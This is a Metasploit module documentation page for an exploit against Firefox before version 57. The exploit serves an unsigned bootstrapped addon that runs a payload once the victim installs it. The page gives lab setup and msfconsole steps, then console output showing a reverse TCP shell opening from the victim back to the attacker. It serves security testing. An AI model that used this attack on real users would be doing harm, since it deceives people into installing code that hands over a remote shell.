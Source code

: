 ## Vulnerable Application

Mozilla Firefox before version 41 allowed users to install
unsigned browser extensions from arbitrary web servers.

This module dynamically creates an unsigned .xpi addon file.
The resulting bootstrapped Firefox addon is presented to
the victim via a web page. The victim's Firefox browser
will pop a dialog asking if they trust the addon.

Once the user clicks "install", the addon is installed and
executes the payload with full user permissions. As of Firefox
4, this will work without a restart as the addon is marked to
be "bootstrapped". As the addon will execute the payload after
each Firefox restart, an option can be given to automatically
uninstall the addon once the payload has been executed.

As of Firefox 41, unsigned extensions can still be installed
on Firefox Nightly, Unbranded and Development builds when
configured with `xpinstall.signatures.required` set to `false`.

Note: this module generates legacy extensions which are
supported only in Firefox before version 57.


### Installation

Download an old Developer Edition (version 4 < 57) installer from:

* https://download-origin.cdn.mozilla.net/pub/devedition/releases/

Browse to `about:config` and set `xpinstall.signatures.required` to `false`.

Open Tools -> Options, search for "updates" and select "Never check for updates".


## Verification Steps

1. Start `msfconsole`
1. Do: `use exploit/multi/browser/firefox_xpi_bootstrapped_addon`
1. Do: `set SRVHOST [IP]`
1. Do: `run`

## Options


## Scenarios

### Firefox Developer Edition 56.0b9 on Windows 7 SP1 (x64) with xpinstall.signatures.required disabled

Run the module and load the web server URL in Firefox. Install the extension when prompted.

```
msf6 post(windows/gather/enum_domains) > use exploit/multi/browser/firefox_xpi_bootstrapped_addon 
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(multi/browser/firefox_xpi_bootstrapped_addon) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] Using URL: http://192.168.200.130:8080/Oj8qCs
[*] Server started.
msf6 exploit(multi/browser/firefox_xpi_bootstrapped_addon) > 
[*] 192.168.200.190  firefox_xpi_bootstrapped_addon - Redirecting request.
[*] 192.168.200.190  firefox_xpi_bootstrapped_addon - Sending HTML response.
[*] 192.168.200.190  firefox_xpi_bootstrapped_addon - Sending xpi and waiting for user to click 'accept'...
[*] 192.168.200.190  firefox_xpi_bootstrapped_addon - Sending xpi and waiting for user to click 'accept'...
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.190:49861) at 2022-09-04 01:46:40 -0400
```
